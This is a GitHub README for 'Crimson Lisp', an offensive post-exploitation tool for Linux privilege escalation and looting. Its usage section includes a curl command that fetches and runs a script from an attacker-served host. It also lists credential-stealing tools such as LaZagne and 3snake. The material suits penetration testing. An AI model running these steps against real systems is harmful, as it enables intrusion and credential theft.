 # Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="lisp.png" />
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_lisp.git
```
# Usage
```
### ON THE HOST MACHINE
cd crimson_lisp
sudo python3 -m http.server 80

### ON THE TARGET MACHINE 
## 1. DOWNLOAD THE TOOLS
curl -s -k http://127.0.0.1/lisp.sh -o lisp.sh; chmod +x lisp.sh
./lisp.sh -u "http://127.0.0.1/"

## 2. ESCALATE THE PRIVILEGES
./lisp.sh -e

## 3. LOOT THE SYSTEM
sudo ./lisp.sh -l
```
# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/crimson-lisp-36d4891437d5)

# List of utilized tools
> The following tools are used in `Crimson Lisp`. I encourage you to study the links below. They will help you in your work.

* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [pspy](https://github.com/DominicBreuker/pspy)
* [traitor](https://github.com/liamg/traitor)
* [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* [The LaZagne Project](https://github.com/AlessandroZ/LaZagne)
* [3snake](https://github.com/blendin/3snake)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>